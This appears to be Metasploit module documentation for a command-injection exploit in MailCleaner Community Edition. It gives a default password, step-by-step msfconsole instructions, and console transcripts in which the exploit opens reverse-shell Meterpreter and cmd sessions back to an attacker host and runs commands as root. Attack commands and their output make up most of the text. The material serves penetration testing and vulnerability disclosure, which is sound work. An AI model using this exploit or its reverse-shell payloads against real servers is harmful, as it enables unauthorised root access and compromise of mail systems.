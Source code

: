 ## Description

This module exploits the command injection vulnerability of MailCleaner Community Edition product. An authenticated user can execute an operating system command under the context of the web server user which is root.

### Vulnerable Application
You can download ISO file from following URL.
[https://www.mailcleaner.org/latest-downloads/](https://www.mailcleaner.org/latest-downloads/)

At the time of this writing all the passwords of users such as root or admin user was "MCPassw0rd".

## Verification Steps

A successful check of the exploit will look like this:

1. Start `msfconsole`
2. `use use exploit/linux/http/mailcleaner`
3. Set `RHOST`
4. Set `LHOST`
5. Set `USERNAME`
6. Set `PASSWORD`
7. Run `exploit`
8. **Verify** that you are seeing ` Awesome..! Authenticated`.
9. **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf > use exploit/linux/http/mailcleaner_exec 
msf exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
PASSWORD => qwe123
msf exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:<password>
[*] Exploiting command injection flaw
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 1 opened (12.0.0.1:4444 -> 12.0.0.100:44974) at 2018-12-19 17:24:44 +0300
[*] Sending stage (53508 bytes) to 12.0.0.100
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.100:44975) at 2018-12-19 17:24:45 +0300

meterpreter >
```

You can also use cmd payloads.

```
msf > use exploit/linux/http/mailcleaner_exec 
msf exploit(linux/http/mailcleaner_exec) > set RHOSTS 12.0.0.100
RHOSTS => 12.0.0.100
msf exploit(linux/http/mailcleaner_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf exploit(linux/http/mailcleaner_exec) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/mailcleaner_exec) > set PASSWORD <password>
msf exploit(linux/http/mailcleaner_exec) > set target 1
msf exploit(linux/http/mailcleaner_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(linux/http/mailcleaner_exec) > run

[*] Started reverse TCP double handler on 12.0.0.1:4444 
[*] Performing authentication...
[+] Awesome..! Authenticated with admin:MCPassw0rd
[*] Exploiting command injection flaw
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo P6zixt2asYXZ29NE;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "P6zixt2asYXZ29NE\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (12.0.0.1:4444 -> 12.0.0.100:53996) at 2018-12-20 12:09:32 +0300

id
uid=0(root) gid=1003(mailcleaner) groups=1003(mailcleaner)
```
